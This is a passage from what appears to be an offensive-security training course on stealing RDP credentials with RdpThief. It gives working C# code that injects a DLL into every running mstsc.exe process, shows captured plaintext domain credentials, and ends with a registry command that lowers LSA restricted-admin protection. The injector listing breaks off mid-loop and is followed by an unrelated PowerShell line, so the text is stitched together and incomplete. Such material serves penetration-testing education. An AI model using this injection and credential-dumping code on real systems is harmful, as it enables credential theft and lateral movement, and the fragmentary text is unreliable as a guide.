 > Listing 25 - Injection code for RdpThief

To test this out, we'll compile the C# project, log in to appsrv01 as _dave_, and copy the executable to C:\Tools.

Next, we start mstsc.exe followed by our C# console application.

Finally, we'll use mstsc to log in to dc01 as the _admin_ user then dump the contents of the RdpThief output file to find the clear text credentials.

```
C:\Tools> mstsc.exe

C:\Tools> Inject.exe

C:\Tools> type C:\Users\dave\AppData\Local\Temp\6\data.bin
S e r v e r :   d c 0 1
 U s e r n a m e :   c o r p 1 \ a d m i n
 P a s s w o r d :   l a b

 S e r v e r :   d c 0 1
 U s e r n a m e :   c o r p 1 \ a d m i n
 P a s s w o r d :   l a b
```

> Listing 26 - Dumping credentials from mstsc.exe

Note that the username in the output path is dynamically resolved and the numbered subdirectory at the end of the path is the session ID.

While this technique presents us with the user's username, domain, and password in clear text, we must know when an mstsc.exe process is started and launch our C# console application before the user enters the credentials.

To improve on this, we can modify our injection code further to automatically detect when an instance of mstsc is started and then inject into it.

We'll implement this with an infinitely-running _while_ loop. With each iteration of the loop, we'll discover all instances of mstsc.exe and subsequently perform an injection into each of them.

Finally, we'll use the _Thread.Sleep_[9](https://portal.offsec.com/courses/pen-300-9502/learning/windows-lateral-movement-14690/windows-lateral-movement-14937#fn-local_id_535-9) method to pause for one second between each iteration. To use this method, we must first import the _System.Threading_ namespace with the _using_ statement.

```
using System.Threading;
...
static void Main(string[] args)
{
  String dllName = "C:\\Tools\\RdpThief.dll";
  while(true)
  {
    Process[] mstscProc = Process.GetProcessesByName("mstsc");
    if(mstscProc.Length > 0)
    {
      for(int i = 0; i < mstscProc.Length; i++)
      {
        int pid = mstscProc[i].Id;

        IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
        IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
        IntPtr outSize;
        Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
        IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
        IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);
      }
```

[appsrv01]: PS C:\Users\admin\Documents> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
[appsrv01]: PS C:\Users\admin\Documents> Exit